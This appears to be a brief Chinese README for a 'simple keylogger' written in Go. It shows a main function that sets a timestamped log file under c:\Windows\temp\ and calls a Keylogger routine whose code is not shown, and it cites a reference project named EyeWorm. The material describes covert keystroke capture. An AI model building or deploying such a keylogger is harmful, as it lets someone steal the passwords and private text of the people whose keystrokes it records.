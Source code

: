 # 简易键盘记录器

## 文件记录在 c:\\Windows\\temp\\ 目录下，以时间戳命名。
```
func main() {
	timeUnix := time.Now().Unix()
	KeylogSavePath = fmt.Sprintf("c:\\Windows\\temp\\%d.txt", timeUnix)

	Keylogger()
}
```


参考项目
1. https://github.com/JayGitH/EyeWorm
